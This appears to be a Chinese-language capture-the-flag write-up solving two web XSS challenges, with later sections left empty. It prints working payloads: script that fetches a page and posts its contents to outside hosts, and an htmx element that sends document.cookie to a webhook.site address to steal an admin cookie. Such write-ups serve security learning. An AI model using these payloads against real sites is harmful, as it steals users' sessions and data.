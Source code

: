 # web
### Based Encoding
#xss 
用户的输入会进行一个自己写的base91算法编码然后回显
思路,`decode("<script>alert(1)</script>")`
但是发现存在不可见字符传参传不进去,但是代码里允许16进制传参,

```js
print(decode('<script>alert(1)</script>').hex())
//成功弹窗
```

但是需要读取admin的编码历史,需要用到一些base91码表里没有的值,比如`.`
```js
<script>
fetch("/")
	.then(x=>x.text())
		.then(x=>fetch("http://example.com",{
			method:"post",
			body:x		
		}))
</script>
```

```html
<script>
fetch("/")
    .then(x => x.text())
    .then(x => fetch("https://nice.requestcatcher.com/test", {
        method: "post",
        body: x
    }))
</script>aaa <!--防止base91解码后丢失数据>
```

接收到admin的页面截图
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018202947.png)
直接访问即可得到flag

### awesome I
#xss 
一个可以提交在线笔记的网页,需要xss到admin获取cookie来读取flag笔记

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018214928.png)
可以观察到使用htmx,

```html
<div hx-get="https://webhook.site/cd508abb-abf4-42db-92d8-af41cf9017b3" hx-trigger="load" hx-target="this" hx-on="htmx:afterRequest:fetch('https://webhook.site/cd508abb-abf4-42db-92d8-af41cf9017b3?a='+document.cookie)">click</div>
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018220811.png)
获取到admincookie
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018221504.png)

### awesomeII
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231018222050.png)

tags里是一堆数学公式标签,允许自定义style,
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-18   15:52
